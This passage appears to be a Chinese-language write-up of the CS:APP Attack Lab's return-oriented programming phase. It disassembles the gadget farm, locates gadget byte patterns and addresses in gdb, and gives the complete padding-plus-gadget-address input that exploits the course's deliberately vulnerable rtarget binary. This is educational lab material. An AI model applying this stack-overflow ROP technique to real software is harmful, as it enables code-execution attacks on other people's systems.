 每一个进程独享一个虚拟内存空间，一个可执行文件就是一个进程。要想进行rop攻击，选用的代码段必须与被攻击的程序在同一个虚拟内存空间中才行，所以farm实际上是rtarget的一部分，这里的farm.c只是单列出来方便我们查看可以用来攻击的指令。

我们先来查看farm的汇编代码。先把`farm.c`编译，然后用`objdump -d`输出汇编代码。

> 注意编译的时候一定要加-Og选项！不然会用到stack frame pointer， 而rtarget里函数是没有用到栈针指针的，这会导致指令的编码错误。

```bash
bolee@bolee-virtual-machine:~/csapp/target1$ gcc -c -Og farm.c
bolee@bolee-virtual-machine:~/csapp/target1$ objdump -d farm.o > farm.s
```

打开`farm.s` 就可以看到我们的反汇编编码序列：

<img src="https://raw.githubusercontent.com/BoL0150/image2/master/image-20210722191232506.png" alt="image-20210722191232506" style="zoom: 67%;" />

首先找gadget2的代码，由writeup提供的表可知，需要寻找`48 89 xx c3`的指令序列。

![image-20210725162412403](https://raw.githubusercontent.com/BoL0150/image2/master/image-20210725162412403.png)

再寻找gadget1的代码，也就是 `58 c3`的指令序列

![image-20210725163653892](https://raw.githubusercontent.com/BoL0150/image2/master/image-20210725163653892.png)

在rtarget的gdb中查看这两个函数的汇编代码：

![image-20210725170618034](https://raw.githubusercontent.com/BoL0150/image2/master/image-20210725170618034.png)

从中我们可以得出`movq %rax,%rdi`指令的地址为：`0x4019a2`，`popq %rax`指令的地址为：`0x4019ab`

所以输入的字节码为：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

![image-20210725171820856](https://raw.githubusercontent.com/BoL0150/image2/master/image-20210725171820856.png)

